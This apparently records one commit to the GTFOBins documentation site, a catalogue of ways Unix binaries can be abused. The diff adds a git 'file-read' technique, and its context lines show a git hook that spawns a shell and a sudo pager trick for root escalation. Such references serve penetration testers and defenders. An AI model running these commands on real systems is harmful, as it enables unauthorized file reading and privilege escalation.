

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file read to git

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -13,6 +13,11 @@ functions:
         echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
         mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
         git -C "$TF" commit --allow-empty -m x
+  file-read:
+    - description: The read file content is displayed in `diff` style output format.
+      code: |
+        LFILE=file_to_read
+        git diff /dev/null $LFILE
   sudo:
     - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
     - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
```
